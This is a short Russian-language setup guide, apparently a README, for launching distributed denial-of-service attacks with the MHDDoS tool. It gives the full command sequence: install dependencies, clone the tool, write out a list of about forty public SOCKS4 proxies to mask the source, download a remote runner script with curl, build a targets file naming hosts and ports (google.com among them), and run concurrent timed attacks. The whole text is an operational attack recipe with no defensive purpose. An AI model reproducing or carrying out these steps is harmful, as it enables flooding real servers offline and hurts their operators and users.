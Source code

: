 1. Установите инструментарий
```
sudo apt-get update
sudo apt-get install -y python3-pip python-pyasn1
pip install pyasn1==0.4.6
```

2. Установите на сервере MHDDoS
```
git clone https://github.com/MHProDev/MHDDoS.git
cd MHDDoS
pip install -r requirements.txt
```

3. Сохраните прокси лист

```
echo 'socks4://115.239.21.111:23456
socks4://119.3.231.232:8001
socks4://123.56.29.180:10808
socks4://178.237.38.22:13292
socks4://192.252.215.5:16137
socks4://93.190.141.62:9050
socks4://192.252.215.5:16137
socks4://72.195.34.35:27360
socks4://162.14.135.190:10800
socks4://80.75.3.74:1080
socks4://114.88.230.134:1080
socks4://98.162.96.53:10663
socks4://119.3.231.232:8001
socks4://72.195.34.60:27391
socks4://119.3.231.232:8001
socks4://198.8.94.170:4145
socks4://142.93.143.155:9010
socks4://192.252.211.197:14921
socks4://192.111.135.17:18302
socks4://72.195.34.35:27360
socks4://175.24.235.242:7891
socks4://98.162.25.23:4145
socks4://98.162.25.4:31654
socks4://174.77.111.198:49547
socks4://192.111.137.35:4145
socks4://192.111.137.35:4145
socks4://98.162.25.7:31653
socks4://78.47.230.141:17027
socks4://128.199.245.23:24527
socks4://222.212.85.16:7000
socks4://51.222.13.193:10084
socks4://121.205.228.46:8003
socks4://1.14.104.55:15229
socks4://192.111.135.21:4145
socks4://192.111.135.21:4145
socks4://72.195.34.60:27391
socks4://101.35.115.136:20012
socks4://142.93.143.155:9010
socks4://98.162.25.4:31654
socks4://175.24.235.242:7891
socks4://192.111.137.34:18765' > files/proxies/0
 ```

4. установите раннер
```
curl https://raw.githubusercontent.com/rxitech/k6clean/master/runner.sh > runner.sh
```

5. сделайте раннер запускаемым

```
chmod +x ./runner.sh
```

6. Создайте targets.csv файл с целями в следующем формате (без запятой после последнего значения!)
```
localhost;127.0.0.1;
google.com;172.217.19.78;443;80;8080;
```

7. Запустите раннер передав файл с целями и продолжительность выполнения в секундах и количеством целей для параллельной обработки (зависит от сервера но больше 5 ставить не рекоммендуется)
```
./runner.sh targets.csv 300 5
```
